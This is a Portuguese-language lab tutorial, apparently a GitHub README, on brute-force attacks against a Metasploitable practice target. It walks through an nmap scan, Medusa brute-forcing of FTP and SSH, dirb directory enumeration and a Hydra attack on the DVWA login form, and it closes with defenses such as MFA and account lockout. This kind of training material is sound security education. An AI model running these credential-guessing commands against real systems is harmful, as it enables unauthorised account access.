 # Ataques de força bruta

Ataque de força bruta é uma tecnica de ciberataque que usa tentativa e erro para descobrir senhas, chaves de criptografias ou credenciais de login tentando todas as combinações possiveis até encontrar a correta.
A eficiencia do ataque depende da complexidade da senha. 
Senhas muito complexas e muito grande se torna enviavel um ataque de força bruta.

Com isso, as melhores formas de se proteger contra ataques de força bruta é usar senhas fortes juntamente com um MFA. 

----------------------------------------------------------------------------------------------
### --ATENÇÃO--

`OS COMANDOS E TECNICAS APRESENTADOS AQUI SÃO REALIZADOS EM AMBIENTE CONTROLADO E VULNERAVEL PARA TESTES. QUALQUER TESTES REALIZADOS FORA DE UM CENARIO CONTROLADO É POR SUA CONTA E RISCO.`

----------------------------------------------------------------------------------------------

Usaremos  o sistema Metasploitable Para simular um ambiente em que faremos os ataques.

Simulando um ambiente real e vulnerável, suponhamos que de alguma forma através de alguma técnica descobrimos o IP do nosso alvo.

### SCANEANDO PORTAS E SERVIÇO USANDO O NMAP

Usaremos a ferramenta NMAP para reconhecer as portas e verificar os serviços rodando.

**INSTALAÇÃO**

`apt install nmap`

Usando o comando:

`nmap -sV [IP ALVO] > scan.txt`

Será feito o scan e o resultado salvo em um arquivo de texto com o nome scan.txt.

[Foto scan nmap]

Podemos verificar que ha vários serviços rodando e iremos realizar ataques em alguns deles como: ftp e ssh.


----


## INSTALANDO O MEDUSA

Caso não esteja usando o Kali linux ou alguma outra distribuição que já tenha o medusa, pode obter com o seguinte comando:

`sudo apt install medusa`

para sistema MAC use o comando:

`brew install medusa`


**BRUTE FORCE FPT USANDO A FERRAMENTA MEDUSA**

Usando uma wordlist de usuarios e uma wordlist de senhas faremos o ataque no serviço FTP com o comando:

`medusa -h [IP DO ALVO] -U [WORDLIST USUARIOS] -P [WORDLIST SENHAS] -X [SERVIÇO] -t[QTD THEADS]`

Nesse cenário fizemos um brute force no serviço de FTP usando wordlists de usuários e senhas e 6 threads.

[foto ataque ftp medusa]

com o resultado de sucesso podemos testar e validar o acesso logando no serviço.

[foto login ftp]

----

**ATAQUE DE LOGIN SSH COM MEDUSA**

Para o brute force  ssh podemos usar o comando:

`medusa -h [IP ALVO] -M ssh -U [WORDLIST USERS] -P [WORDLIST ] -t 6`

[foto ataque ssh]

----

### ENUMERANDO DIRETORIOS

Para enumerar diretórios podemos usar qualquer ferramenta que automatize esse processo para termos mais agilidade.
usaremos o DIRB para enumerar mas tambem poderiamos usar o GOBUSTER

**INSTALANDO O DIRB**

`sudo apt install dirb`

**NSTALANDO O GOBUSTER**

`sudo apt install gobuster`

**ENUMERANDO DIRETÓRIOS COM O DIRB**

`dirb http://[IP DO ALVO]`

[foto enumeração dirb]

----

### ATAQUE DE LOGIN USANDO O HYDRA

Em nosso ambiente ha uma pagina de login via formulário e faremos um brute force usando o HYDRA.

**INSTALAÇÃO DO HYDRA**

`sudo apt install hydra`

para tal cenário usaremos o comando:

`hydra [IP ALVO] -L [WORDLIST USER] -P [WORDLIST PASS] http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed"`

[foto ataque]

Validando o retorno do ataque:

[foto login dvwa]


----

Uma outra técnica ao invés de usar várias senhas para um único usuário, é usar uma ou poucas senhas em vários usuários. Isso torna o ataque mais silencioso e discreto tornando mais difícil de causar alarmes no sistema fazendo com que o ataque seja bloqueado. Essa técnica é chamada de Password spraying.

Por isso é muito importante o uso de senhas fortes e MFA, implementação de criptografia na comunicação e sempre usar protocolos com camadas de segurança.
Bloquear a conta após um certo número de tentativas incorretas, monitoramento de IP e o uso de CAPTHA dificultam ataques ao sistema além de outras medidas de proteção como IDP/IPS. 